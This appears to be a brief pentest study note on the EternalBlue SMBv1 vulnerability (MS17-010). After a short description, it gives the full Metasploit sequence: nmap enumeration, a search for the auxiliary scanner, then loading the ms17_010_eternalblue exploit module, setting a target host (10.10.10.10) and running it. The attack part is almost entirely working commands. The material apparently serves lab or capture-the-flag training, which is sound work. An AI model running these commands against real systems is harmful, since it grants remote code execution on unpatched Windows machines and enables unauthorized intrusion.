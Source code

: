 # Exploiting SMB via EternalBlue Exploit
#### EXPLOIT DESCRIPTION:
- Eternal Blue (MS17-010/CVE-2017-0144) is a Windows exploit which target SMB service which allows attackers to remotely execute commands and gain access to the Windows system.
- Exploit was developed by NSA, leaked by a hacker group called Shadow Brokers.
- It takes advantage of vulnerability in SMBv1 protocol.

#### Initial Enumeration:
```
db_nmap -sV -O 10.10.10.10
```

#### Vulnerability Scannning
```
search eternalblue type:auxiliary
```

#### Exploitation:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.10.10.10
exploit
```
